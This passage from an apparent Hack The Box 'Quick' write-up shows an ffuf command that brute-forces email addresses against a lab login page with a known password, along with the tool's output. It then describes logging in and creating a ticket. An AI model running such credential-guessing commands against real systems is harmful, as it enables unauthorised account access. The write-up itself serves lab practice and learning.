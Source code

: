 ## Finding a valid user
Let's now use `ffuf` to try to bruteforce the login by generating all the
possible passwords using the three wordlists:
```
$ ffuf -r -c -fs 80 -w usernames.txt:USER -w domains.txt:DOMAIN -w tlds
.txt:TLD -X POST -d 'email=USER@DOMAIN.TLD&password=Quick4cc3$$' -H 'Accept-Encoding: gzip, deflate' -H
'Content-Type: application/x-www-form-urlencoded' -u http://10.10.10.186:9001/login.php

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.1.0-git
________________________________________________

 :: Method           : POST
 :: URL              : http://10.10.10.186:9001/login.php
 :: Wordlist         : USER: usernames.txt
 :: Wordlist         : DOMAIN: domains.txt
 :: Wordlist         : TLD: tlds.txt
 :: Header           : Accept-Encoding: gzip, deflate
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : email=USER@DOMAIN.TLD&password=Quick4cc3$$
 :: Follow redirects : true
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Response size: 80
________________________________________________

[Status: 200, Size: 86, Words: 2, Lines: 1]
    * USER: elisa
    * DOMAIN: wink
    * TLD: co.uk
```

Let's now login with `elisa@wink.co.uk`:
![](/images/hackthebox/quick/ticketing.png)

Now, having access to the ticketing panel, we can create a ticket:
![](/images/hackthebox/quick/create-ticket.png)

An alert confirms the ticket creation:
![](/images/hackthebox/quick/created-ticket.png)
